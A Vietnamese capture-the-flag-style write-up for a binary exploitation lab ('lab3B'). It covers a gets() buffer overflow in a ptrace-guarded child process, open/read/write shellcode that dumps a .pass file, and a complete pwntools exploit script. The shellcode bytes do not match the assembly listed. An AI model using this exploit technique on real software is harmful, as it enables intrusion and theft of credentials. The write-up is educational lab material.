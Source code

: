 # Problem
`lab3B` này là 1 dạng mới mình từng gặp, bài này sẽ gọi một tiến trình con bằng hàm fork(): 
```sh
pid_t child = fork();
```

Bài này chúng ta có `hint` trong source luôn:

```sh
/* hint: write shellcode that opens and reads the .pass file.
   ptrace() is meant to deter you from using /bin/sh shellcode */

```

Bài này có sử dụng 1 số hàm chính như:

* ptrace(PTRACE_TRACEME, 0, NULL, NULL);     - cái này trên hint có rồi nhỉ.
* puts("just give me some shellcode, k");    - hiển thị chuỗi ra màn hình
* gets(buffer);                              - Nhập dữ liệu từ bàn phím, đây là hàm gây Buffer Overflow vì không kiểm soát số lượng nhập vào.
* wait(&status);                             - Đợi tiến trình, cụ thể là tiến trình con thực hiện, theo mình hiểu là vậy :v.
* syscall = ptrace(PTRACE_PEEKUSER, child, 4 * ORIG_EAX, NULL); - hàm này sẽ ngăn tiến trình con spawn shell.


# Solution

### Lý thuyết
Hướng exploit bài này là mình sẽ viết shellcode thực hiện các chức năng như open, read, write đúng như hint ở trên.
sau đó mình sẽ ret về shellcode ấy.

### Thực hành
Nghe lý thuyết thì có vẻ ăn ngay và luôn. mình cùng thực hành nào.

Để viết shellcode chúng ta cần rất nhiều thứ như sau:

* đường dẫn file cần mở  - Chắc chắn rồi, nó giống như flag, đọc được nó coi như mình làm xong bài này.
* hết rồi. :v

Đường dẫn thì nó là `.pass` luôn vì hint có nói thế. Để nó vào shellcode thì chúng ta cần phải chuyển sang hexa

```sh
.   p    a   s   s                        s  a  p  .     s
2e  70   61  73  73             =>        73 61 70 2e    73
```

Đảo ngược nó là vì shellcode chuỗi này mình đưa vào stack có kết thúc nhỏ. (little endian)

Shellcode mình viết bằng asembly như sau:
```sh
    segment .text
        global _start
    _start:
    push   0x73
    push   0x7361702e

    xor    eax,eax
    mov    al,0x5    ; Sys_open
    mov    ebx,esp
    xor    ecx,ecx
    xor    edx,edx
    int    0x80

    sub    esp,0x64
    mov    ebx,eax
    mov    al,0x3     ; Sys_read
    mov    ecx,esp
    mov    dl,0x64
    int    0x80

    mov    al,0x4     ; Sys_write
    mov    bl,0x1       
    mov    ecx,esp
    mov    dl,0x64
    int    0x80
```


**sub esp,0x64** là mình để chứa giá trị trong file trên. 

Sau khi chuyển sang shellcode sẽ như này: 
```sh
 shellcode = "\x6a\x73\x68\x2e\x70\x61\x73\x68\x62\x33\x41\x2f\x68\x65\x2f\x6c\x61\x68\x2f\x68\x6f\x6d\x31\xc0\xb0\x05\x89\xe3\x31\xc9\x31\xd2\xcd\x80\x83\xec\x64\x89\xc3\xb0\x03\x89\xe1\xb2\x64\xcd\x80\xb0\x04\xb3\x01\x89\xe1\xb2\x64\xcd\x80"

```
Và đây là file exploit3B.py của mình

```sh
from pwn import *

s = process("./lab3B")
elf = ELF("./lab3B")
LIBC = ELF("/lib/i386-linux-gnu/libc.so.6")
raw_input("DEBUG")
payload = 'a'.ljust(156,"b")
payload+= p32(elf.symbols.plt['gets'])
#cach1
#payload+= p32(elf.symbols['main'])
#cach2
payload+= p32(0x8049000)
payload+= p32(0x8049000)
s.sendline(payload)

shellcode = "\x6a\x73\x68\x2e\x70\x61\x73\x68\x62\x33\x41\x2f\x68\x65\x2f\x6c\x61\x68\x2f\x68\x6f\x6d\x31\xc0\xb0\x05\x89\xe3\x31\xc9\x31\xd2\xcd\x80\x83\xec\x64\x89\xc3\xb0\x03\x89\xe1\xb2\x64\xcd\x80\xb0\x04\xb3\x01\x89\xe1\xb2\x64\xcd\x80"
s.sendline(shellcode)
s.interactive()
s.close()
```



